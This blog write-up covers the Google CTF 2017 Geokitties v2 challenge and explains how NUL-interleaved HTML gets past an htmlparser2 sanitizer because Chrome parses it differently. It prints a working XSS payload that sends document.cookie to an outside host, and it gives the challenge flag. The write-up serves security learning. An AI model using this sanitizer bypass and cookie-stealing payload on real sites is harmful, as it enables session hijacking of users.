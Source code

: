 ```yaml
---
title: Google CTF 2017 – Geokitties v2 writeup
author: tyage
type: posts
date: 2017-06-25T17:04:34+00:00
url: /?p=1020
wp-syntax-cache-content:
  - |
    a:3:{i:1;s:306:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;\x00a\x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table><p class="theCode" style="display:none;">\x00&lt;\x00a\x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</p></div>
    ";i:2;s:300:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;a \x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table><p class="theCode" style="display:none;">\x00&lt;a \x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</p></div>
    ";i:3;s:486:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">'\x00&lt;a \x00' + &quot;&lt;a href='javascript:location.href=`//tyage.net/`+document.cookie'&gt;&quot;.split('').join('\x00') + '&lt;/a&gt;'</pre></td></tr></table><p class="theCode" style="display:none;">'\x00&lt;a \x00' + &quot;&lt;a href='javascript:location.href=`//tyage.net/`+document.cookie'&gt;&quot;.split('').join('\x00') + '&lt;/a&gt;'</p></div>
    ";}
categories:
  - CTF

---
```

<h2>Overview</h2>
<p>Problem page:<br />
<a href="https://geokittiesv2.web.ctfcompetition.com/">https://geokittiesv2.web.ctfcompetition.com/</a></p>
<p>Copy of source code:<br />
<a href="https://gist.github.com/tyage/cac08c8e17b90b840fb22cb434cff127">https://gist.github.com/tyage/cac08c8e17b90b840fb22cb434cff127</a></p>
<p>It receives comment, then admin checks it and clicks a link.</p>
<p>The comment is validated by using htmlparser2.</p>
<p>Allowed tags are: <code><i>p, a, b, img, br, i</i></code><br />
Invalid attributes: <code><i>on(.*)=</i></code> and <code><i>href=javascript:...</i></code></p>
<h2>Solution</h2>
<p>What we should do is find the differences in parsing between Google Chrome and htmlparser2.</p>
<p>After some time, I realize that when input is utf-16 string, Chrome parses it as utf-16 string but htmlparser2 does not.</p>
<p>For example, the html below is parsed as html element <code><i>\x00a\x00</i></code> in htmlparser2.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;\x00a\x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table></div>

<p><code><i>&lt;\x00a\x00&gt;</i></code> is not a valid tag, so we should create a valid html link like below.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;a \x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table></div>

<p>Now, htmlparser2 recognize <code><i>a</i></code> html tag but chrome does not recognize it as html element.</p>
<p>So we can construct an valid html <code><i>&lt;a href=javascript:...</i></code>.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">'\x00&lt;a \x00' + &quot;&lt;a href='javascript:location.href=`//tyage.net/`+document.cookie'&gt;&quot;.split('').join('\x00') + '&lt;/a&gt;'</pre></td></tr></table></div>

<p>Finally, admin gives us a flag: <code><i>CTF{i_HoPe_YoU_fOunD_tHe_IntEndeD_SolUTioN_tHis_Time}</i></code></p>
